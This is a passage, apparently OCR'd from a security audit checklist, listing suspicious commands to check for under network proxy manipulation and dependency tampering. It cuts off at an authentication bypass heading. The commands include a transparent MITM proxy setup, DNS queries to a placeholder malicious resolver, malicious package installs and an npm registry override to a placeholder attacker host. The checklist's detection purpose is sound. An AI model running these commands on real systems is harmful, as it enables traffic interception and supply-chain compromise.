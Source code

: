   

------

### **4. Network Proxy Manipulation**

**Critical findings:**

- MITM

   

  or

   

  traffic interception

   

  setups

  ```
  mitmproxy --mode transparent --showhost
  ```

  

- DNS hijacking

  ```
  dig github.com @malicious-dns.bbxai.net
  ```

  

------

### **5. Dependency Tampering**

**Check for:**

- Malicious package installs

  ```
  npm install --save bbxai-malware-package
  pip install --user compromised-pkg
  ```

  

- Registry overrides

  ```
  npm config set registry http://malicious.registry.bbxai.net
  ```

  

------

### **6. Authentication Bypass**

**Key commands:**

- Hardcoded tokens
